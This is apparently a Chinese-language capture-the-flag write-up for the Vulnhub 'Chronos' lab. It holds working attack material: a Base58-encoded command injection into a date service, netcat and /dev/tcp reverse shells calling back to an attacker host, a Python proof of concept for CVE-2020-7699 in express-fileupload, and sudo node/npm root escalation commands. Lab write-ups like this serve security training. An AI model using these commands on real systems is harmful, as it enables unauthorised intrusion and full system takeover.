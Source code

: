 ```yaml
---
title: Chapter3_Medium_Chronos
categories:
- Network_Security
- Vulnhub
- Chapter3
tags:
- Network_Security
- Vulnhub
date: 2024-01-20 11:33:49
---
```


# Chronos 靶场记录

## 1. 过程记录（粗略）

### 1.1 服务发现和外围打点

1. 主机发现，使用新工具：netdiscover，也是基于 arp 的扫描工具：
    `sudo netdiscover -r 网段/实际掩码 - 8`

2. 端口扫描：
    `nmap -Pn -sV 192.168.0.101 -p 1-10000`
    服务如下：
    ![image-20240116113758731](image-20240116113758731.png)

3. 除了目录扫描，还可以查看一下网页源代码，这里发现一个加密脚本：
    ![image-20240116114455084](image-20240116114455084.png)

4. 使用 cyberchef 对代码进行美化，cyberchef 本身也有编码转化等功能：
    ![image-20240116115232477](image-20240116115232477.png)

5. 根据 URL 猜测，试着访问：
    `http://192.168.0.101:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`
    发现权限不够。

6. 通过修改 f12，将域名换成 IP，出现 CORS 跨域错误。因此这里需要修改 host 文件，让这个域名指向目标 IP。
    `sudo vim /etc/hosts`

7. 再次访问，页面更新，但是没有啥交互窗口，因此抓个包看看。
    根据 HTTP 历史，总共有三个包，着重看返回日期的包：
    ![image-20240116141132284](image-20240116141132284.png)
    经过测试发现，当 User-Agent 为 Chronos 时，会返回时间，否则提示 Permission Denied。

8. 其次，尝试猜测 format 的含义，修改内容后，服务端无法返回时间。尝试解码，像是 Base 系列编码，挨个试试，结果是 Base 58 编码：
    ![image-20240116141624700](image-20240116141624700.png)
    这里用的是 CaptfEncoder V2，用 CyberChef 的 magic 让它自动分析编码也省事。

9. 结果是 Linux date 命令的参数，这确实是想不到。测试：
    `9bEW4cq4qengPvFGtzJXEAs1sGpKzYpYvUjwvUngwAmfrVsMwAERK9ox - '+Today is %A, %B %d, %Y %H:%M:%S.' && ls`
    结果返回出来了，说明存在 RCE。

### 1.2 反弹 Shell 与信息收集

1. 查看靶机的 /bin，发现其有 nc，因此用 NC 串联来建立 Shell：
    `7ihptVs1vQRPedsgE9FnpNTWUwH5Ec9aGfvLfeuGgtc21faujqYQsojc89LSM4jDjPBprmKfkco7HEoZxxwPeBjAkbDAe6XXfdkc5oiTjwrn1tJc2pyJj2Y7k6PDpCBXtwCfBCkrap - '+Today is %A, %B %d, %Y %H:%M:%S.' | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555`

2. 拿到 Shell 经过一段信息收集后，发现 imera 用户有个 user.txt 文件，但是没有权限查看，因此需要提权。

### 1.3 初步提权

1. 先查看内核，`'map_write() CAP_SYS_ADMIN' Local Privilege Escalation` 需要 Capabilities 权限，网上查找了一下，发现需要存在 Capabilities 的 CAP_SYS_ADMIN 权限的文件，通过 `getcap -r / 2>/dev/null` 找了一下，发现没有。

2. 内核没法提权，就从 suid 上试试，查找了一下，常见的 suid 程序也基本没有。
     再试试 sudo -l，结果也不行。

3. 回到网站本身，经过信息收集后，发现其有个 chronos-v2。查看后端的 package.json，发现它的 express-fileupload 版本是 1.1.7，恰好比 CVE-2020-7699 Express 模块注入漏洞的版本低，符合利用版本。

4. 再分析他的服务端的代码 server.js，他的服务端开启的服务只在 localhost:8080 端口，外部无法访问。

5. 从 CVE-2020-7699 Express 入手，百度 Google 去找 PoC，最终详情页在：

     > https://github.com/richardgirges/express-fileupload/issues/236
     >
     > https://blog.p6.is/Real-World-JS-1/

6. PoC:
     ```python
     import requests
      
     cmd = 'bash -c "bash -i &> /dev/tcp/192.168.0.2/8888（Kali） 0>&1"'
      
     # pollute
     requests.post('http://127.0.0.1:8080（存在漏洞的服务）', files = {'__proto__.outputFunctionName': (
         None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
      
     # execute command
     requests.get('http://127.0.0.1:8080（存在漏洞的服务）')
     ```

     将该 PoC 在靶机上用 Python3 执行，即可获得 Shell。

7. 此时获得的权限是 imera 的 shell，这时再查看 user.txt 文件。
     拿到第一个 flag：byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

### 1.4 再次提权

1. 利用 sudo -l，发现可以提权：
     ![image-20240116163306479](image-20240116163306479.png)
     可以使用 sudo 来执行 npm 和 node 命令。

2. 使用 node 进行提权：
     `sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

     > https://haiclover.github.io/gtfobins/node/

3. 查看 root 的 txt 文件，第二个 flag：
     YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

4. npm 的提权方式：
     ```bash
     TF=$(mktemp -d)
     echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
     sudo npm -C $TF --unsafe-perm i
     ```

     其他有关命令的提权命令：

     > https://ihsansencan.github.io/privilege-escalation/linux/binaries/

5. LXD 提权：

    > https://www.cnblogs.com/zlgxzswjy/p/14790554.html
    >
    > https://www.cnblogs.com/jason-huawen/p/17016263.html

## 2. 知识点总结

1. 新的主机发现工具 - netdiscover
2. Cyberchef 的使用
3. date 命令参数，这确实想不到，发散思维是吧（
4. CVE-2020-7699 Express 模块注入漏洞
5. node 、lxd 和 npm 提权。
6. 提权方向：
    1. 内核
    2. suid
    3. sudo 与具体命令，具体应用结合
    4. 特殊应用与用户组
